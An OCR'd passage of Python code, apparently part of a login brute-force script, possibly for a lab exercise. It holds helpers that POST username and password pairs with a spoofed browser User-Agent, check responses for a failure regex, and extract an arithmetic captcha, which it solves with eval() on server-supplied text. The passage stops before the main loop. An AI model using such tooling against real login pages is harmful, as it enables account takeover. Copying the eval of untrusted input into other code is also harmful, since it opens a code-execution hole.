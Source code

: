 ```python
#-----------------------------------------------#

usernames = []
passwords = []

# Init logging file
def InitLog():
    with open(logging_file, 'w') as fd:
        fd.write(f'Starting run at {datetime.now()}')
        fd.write(f'---------------------------------------------------')
InitLog()

# append string to logging file
def log(string2append, print2screen=True):
    with open(logging_file, 'a') as fd:
        fd.write(f'\n{string2append}')
    if print2screen:
        print(string2append)
    
# Open file and read each line into an array
def read_file(filename):
    filestream = io.open(filename, 'r')    
    line_array = filestream.readlines()
    filestream.close()
    return line_array

# connect to web server and POST a request 
# to start a new job
def start_job(url, username, password, captcha=None):
    headers = {'Content-Type': 'application/x-www-form-urlencoded',
               'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0'}
    if captcha:
        data = {'username': username, 'password': password, 'captcha': captcha}
    else:
        data = {'username': username, 'password': password}
    response_payload = requests.post(url, headers=headers, data=data)
    #print("Status Code", response_payload.status_code)
    return response_payload.text

# parse the response from the web server and look for a regex string
# if the regex string is found, return True, otherwise return False
def process_response(response_payload, error_regex_string):
    match = re.search(error_regex_string,response_payload)
    if match:
        return True
    return False
    
# function to solve the captcha
def solve_captcha(captcha_regex_string):
    return eval(captcha_regex_string)

# find the catcha in the response using regex
# return the value of the captcha
def process_response_captcha(response_payload, captcha_start_string, catcha_end_string):
    pos_start = response_payload.find(captcha_start_string) + len(captcha_start_string)
    if pos_start == -1:
        return None
    pos_end = response_payload.find(catcha_end_string, pos_start)
    return response_payload[pos_start:pos_end].strip()

################################
username1 = 'test'
```